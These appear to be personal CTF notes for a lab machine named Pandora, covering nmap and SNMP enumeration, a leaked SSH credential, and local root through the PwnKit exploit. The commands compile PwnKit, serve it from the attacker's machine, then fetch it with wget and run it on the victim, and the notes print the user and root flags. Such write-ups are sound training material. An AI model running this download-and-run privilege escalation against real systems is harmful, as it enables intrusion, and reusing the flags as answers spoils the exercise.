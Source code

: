 INFO::
IP:10.10.11.136
OS: Linux

##**Enumeration::**## see ![wappa](Screenshots/pandora_wappa.png)
nmap -A -T4 <ip>::
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landin
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
-sU::
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: pandora

`snmp-check 10.10.11.136 > pandora.snmp.txt`::
839 runnable sh /bin/sh -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'

##**SSH**##
daniel:HotelBabylon23
home/matt/user.txt :: no permissions

cronjob:: looks promising
17 * * * *   root  cd / && run-parts --report /etc/cron.hourly
/etc/cron.d/e2scrub_all

##**scripts in dir::**##
les.sh::
[+] [CVE-2021-4034] PwnKit
[+] [CVE-2021-3156] sudo Baron Samedit
[+] [CVE-2021-3156] sudo Baron Samedit 2
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

chisel server/client
https://github.com/jpillora/chisel

##**User && root**##
pwnkit.c :: https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.c
```
/opt/transfers:$ gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
python3 -m http.server 8888
victim /tmp: wget http:<attack-ip>/pwnkit pwnkit
chmod +x pwnkit
./pwnkit
whoami: root see 
```
![pwnkit](Screenshots/pandora_pwnkit_root.png)
home/matt/user.txt: 69940d7dca02b9c2700460bcf337ec28
/root/root.txt: cd7e46b9980875b196543e8dd0566a5b

dirb http://pandora.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt ::
+ /assets/, /index.html, /server-status:: no permissions

